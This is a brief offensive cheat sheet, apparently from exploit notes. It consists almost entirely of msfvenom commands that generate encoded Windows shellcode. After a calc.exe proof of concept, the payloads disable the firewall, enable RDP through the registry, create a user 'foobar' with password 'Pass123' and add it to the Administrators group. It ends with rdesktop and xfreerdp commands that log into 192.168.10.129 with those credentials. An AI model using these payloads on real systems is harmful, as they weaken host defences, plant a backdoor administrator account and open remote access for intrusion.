    
POC:

```
msfvenom -p windows/exec CMD="C:\windows\system32\calc.exe" EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0A\x0D\x20"
```

Disable Firewall:

```
msfvenom -p windows/exec CMD="netsh Advfirewall set allprofiles state off" EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0A\x0D\x20"
```

Enable RDP:

```
msfvenom -p windows/exec CMD='reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f' EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0A\x0D\x20"
```

Create new user:

```
msfvenom -p windows/exec CMD="net user foobar Pass123 /add" EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0A\x0D\x20"
```

Adding new user to admin group:

```
msfvenom -p windows/exec CMD="net localgroup Administrators foobar /add" EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0A\x0D\x20"
```

rdesktop -a 16 -z -u foobar -p Pass123 192.168.10.129

xfreerdp /u:foobar /p:Pass123 /cert:ignore /v:192.168.10.129